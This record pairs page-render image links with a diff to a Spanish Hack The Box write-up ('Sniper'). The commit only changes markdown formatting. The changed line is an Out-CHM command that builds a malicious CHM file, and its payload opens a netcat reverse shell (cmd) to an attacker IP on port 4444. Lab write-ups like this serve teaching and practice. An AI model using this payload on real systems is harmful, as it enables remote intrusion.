

Before and after one commit to BlackCage/BlackCage.github.io, a Jekyll site: the page built from all_collections/_posts/2022-11-29-sniper-htb.md, in a window 1280 px wide. Shown: the part 4771-5072 px from the top of the page, without its empty margins (283-996 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2022-11-29-sniper-htb.md

````diff
--- a/all_collections/_posts/2022-11-29-sniper-htb.md
+++ b/all_collections/_posts/2022-11-29-sniper-htb.md
@@ -111,7 +111,7 @@ Para poder utilizar la herramienta nos la tenemos que descargar del repositorio
 
 Una vez hecho lo anterior podemos pasar al siguiente paso, crear nuestro archivo `CHM` malicioso, para ello ejecutaremos lo siguiente:
 
-- ```Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```
+```Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"```
 
 Como vemos estamos especificando una ruta, esa ruta será la que se utilizará en la máquina víctima y donde se alojará nuestro `NC`.
 
````
